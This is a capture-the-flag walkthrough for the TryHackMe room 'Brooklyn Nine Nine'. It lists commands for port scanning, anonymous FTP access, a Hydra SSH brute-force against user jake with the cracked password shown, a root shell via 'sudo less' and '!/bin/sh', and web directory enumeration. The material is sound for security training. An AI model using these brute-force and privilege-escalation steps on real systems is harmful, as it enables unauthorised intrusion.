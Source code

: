 # Brooklyn Nine Nine

**Room Link:** [https://tryhackme.com/room/brooklynninenine](https://tryhackme.com/room/brooklynninenine)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (4) (1) (4).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (5) (4) (4).png" alt=""><figcaption></figcaption></figure>

### TCP/21 - FTP

anonymous login worked

**Kali**

```
ftp $VICTIM
Username: anonymous
```

<figure><img src="../../.gitbook/assets/image (10) (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2) (6) (2).png" alt=""><figcaption></figcaption></figure>

### TCP/22 - SSH

**Kali**

```
hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://$VICTIM
```

<figure><img src="../../.gitbook/assets/image (3) (4).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh jake@$VICTIM
Password: 987654321
```

<figure><img src="../../.gitbook/assets/image (8) (6).png" alt=""><figcaption></figcaption></figure>

## **Privlege Escalation**

**Victim**

```
sudo less /etc/profile
!/bin/sh
```

<figure><img src="../../.gitbook/assets/image (5) (4).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



<figure><img src="../../.gitbook/assets/image (1) (10).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (6) (11).png" alt=""><figcaption></figcaption></figure>

I tried to see if I could get any more info from the image but I never did.

**Kali**

```
exiftool brooklyn99.jpg 
steghide info brooklyn99.jpg
```

















